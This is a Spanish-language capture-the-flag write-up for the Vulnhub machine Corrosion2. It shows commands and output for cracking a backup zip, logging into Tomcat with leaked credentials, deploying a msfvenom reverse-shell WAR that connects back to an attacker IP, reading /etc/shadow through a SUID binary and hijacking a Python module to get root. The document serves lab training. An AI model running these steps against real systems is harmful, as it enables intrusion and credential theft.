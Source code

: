 ```yaml
---
title: Vulnhub - Corrosion2
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, Vulnhub, Easy]
tags: [Linux, 'Information Leakage', 'Python Hijacking']
math: true
mermaid: true
image:
  path: /assets/images/Vulnhub/Easy/Corrosion2/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Corrosion2 Machine Logo
---
```


Máquina Linux de nivel **Easy** de Vulnhub.

Técnicas usadas: **Information Leakage, Python Hijacking**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/Vulnhub/Easy/Corrosion2/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p<Ports> -sCV <IP> -oN versiones`**

    ![](/assets/images/Vulnhub/Easy/Corrosion2/02-versions.png)

c. Fuzzeamos por directorios en el servicio web por el puerto **8080**

```bash
nmap -p8080 --script http-enum 192.168.100.22
```

![](/assets/images/Vulnhub/Easy/Corrosion2/03-fuzz.png)

* Nos descargamos el fichero /backup.zip, como está encriptado usaremos **zip2john backup.zip > hash** y crackeamos el hash con john

    ```bash
    john hash -w=/usr/share/wordlists/rockyou.txt 
    @administrator_hi5
    ```

* Al descomprimir **backup.zip** veremos el archivo tomcat-users.xml que tiene las siguientes credenciales

    ```xml
    <role rolename="manager-gui"/>
    <user username="manager" password="melehifokivai" roles="manager-gui"/>
    
    <role rolename="admin-gui"/>
    <user username="admin" password="melehifokivai" roles="admin-gui, manager-gui"/>
    ```

d. Ahora nos autenticamos en el servicio de Tomcat con las credenciales **admin:melehifokivai**

![](/assets/images/Vulnhub/Easy/Corrosion2/04-war.png)

* Subiremos un archivo **.war** malicioso el cual nos permita entablarnos una reverse shell

    ```bash
    msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP Atacante> LPORT=443 -f war -o ./backup.war
    ```
    > Creamos el fichero .war con msfvenom

* Nos podemos en escuchar con nc y ejecutamos el fichero malicioso dando click en:

![](/assets/images/Vulnhub/Easy/Corrosion2/05-app.png)

```bash
nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.100.70] from (UNKNOWN) [192.168.100.22] 34048
script /dev/null -c bash
Script started, file is /dev/null
bash-5.0$
```

### Escalada de Privilegios 💹

a. Vemos que existen más usuarios por lo que intentamos convertirnos en alguno con la misma credencial de Tomcat

```bash
tomcat@corrosion:/var/spool/cron$ cd /home/
tomcat@corrosion:/home$ ls
jaye  randy
tomcat@corrosion:/home$ su jaye
Password: melehifokivai
bash-5.0$ whoami
jaye
```

b. Listamos binarios con permisos SUID

```bash
jaye@corrosion:/home$ find / -perm -4000 2>/dev/null

/home/jaye/Files/look
<SNIP>
```

* **look** nos permite leer archivos, en este caso, podemos leer archivos a los cuales no tenemos acceso.

    ```bash
    jaye@corrosion:~/Files$ ./look '' /etc/shadow

    <SNIP>
    randy:$6$bQ8rY/73PoUA4lFX$i/aKxdkuh5hF8D78k50BZ4eInDWklwQgmmpakv/gsuzTodngjB340R1wXQ8qWhY2cyMwi.61HJ36qXGvFHJGY/:18888:0:99999:7:::
    ```

* Crackeamos el hash

    ```bash
    john randy_hash -w=/usr/share/wordlists/rockyou.txt 
    07051986randy    (?)
    ```

c. Nos convertimos en randy y listamos posibles permisos en el archivo **sudoers**

```bash
randy@corrosion:/home/jaye/Files$ sudo -l
[sudo] password for randy: 

User randy may run the following commands on corrosion:
    (root) PASSWD: /usr/bin/python3.8 /home/randy/randombase64.py
```

* Contenido del fichero **/home/randy/randombase64.py**

    ```py
    import base64

    message = input("Enter your string: ")
    message_bytes = message.encode('ascii')
    base64_bytes = base64.b64encode(message_bytes)
    base64_message = base64_bytes.decode('ascii')

    print(base64_message)
    ```

* También vemos un fichero note.txt

    ```bash
    Hey randy this is your system administrator, hope your having a great day! I just wanted to let you know
    that I changed your permissions for your home directory. You won't be able to remove or add files for now.

    I will change these permissions later on.

    See you next Monday randy!
    ```
    > Nos dicen que no podemos modificar o crear archivos en nuestro directorio de usuario.

* Vemos que se usa la librería **base64**, pero, como no podemos crear un ficheros en nuestro directorio, no podemos suplantar el módulo base64 por lo que veremos si podemos alterar el módulo nativo

    ```bash
    randy@corrosion:~$ locate base64
    /usr/lib/python3.8/base64.py
    <SNIP>
    randy@corrosion:~$ ls -al /usr/lib/python3.8/base64.py
    -rwxrwxrwx 1 root root 43 Aug 10 11:28 /usr/lib/python3.8/base64.py
    ```

* Al tener permisos para editar el **módulo nativo** lo que haremos es eliminar su contenido y sustituirlo por 

    ```py
    randy@corrosion:~$ cat /usr/lib/python3.8/base64.py
    import os

    os.system("chmod +s /bin/bash")
    ```

d. Por último, ejecutamos el programa **/home/randy/randombase64.py**

```bash
randy@corrosion:~$ sudo /usr/bin/python3.8 /home/randy/randombase64.py
Enter your string: s
randy@corrosion:~$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1183448 Jun 18  2020 /bin/bash
randy@corrosion:~$ bash -p
bash-5.0# whoami
root
```